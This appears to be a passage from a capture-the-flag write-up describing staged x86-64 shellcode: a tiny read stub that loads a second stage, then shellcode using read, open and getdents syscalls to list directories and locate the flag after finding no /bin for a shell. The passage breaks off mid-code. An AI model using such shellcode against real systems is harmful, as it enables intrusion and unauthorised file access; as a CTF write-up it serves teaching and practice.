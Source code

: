 # The plan:
* Write the size in $rdx
  * Since $rdx is 64 bit the `mov rdx, 0xff` would be to big
  * To save bytes we write the size in the lowest 8 bits of rdx
* Write the address from $rdi in $rsi and zero out $rdi
  * Again, to save bytes we do a `xchg rdi, rsi`

For the first stage this is the shellcode:

```python
read = asm('''
        mov dl, 0xff
        xchg rsi, rdi
        syscall
''', arch='amd64')
```

Now that I have enough space let's try to pop a shell... But there is no `/bin` folder...

After looking at a list of syscalls I saw `getdents` and decided to try it out. Locally it works kinda fine, the output is pretty unsanitized but I can work with that.

# New plan
* Read primitive
* List directory until I find the flag
  * Read a path from the user
  * Open the path
  * List directories
  * Repeat for every path found

This is the new shellcode:

```python
getdents = asm('''
          nop
          nop
          nop
          nop
          nop
          nop
          nop

          mov r8, rcx
          add r8, 0x7

          push 0x0
          sub rsp, 0xff

          mov rdx, 0xff
          mov rsi, rsp
          xor rdi, rdi
          xor rax, rax
          syscall

          xor rdx, rdx
          xor rsi, rsi
          mov rdi, rsp
          mov rax, 0x2
          syscall

          mov rdx, 0xff
          mov rsi, rsp
          mov rdi, rax
          mov rax, 0x4e
```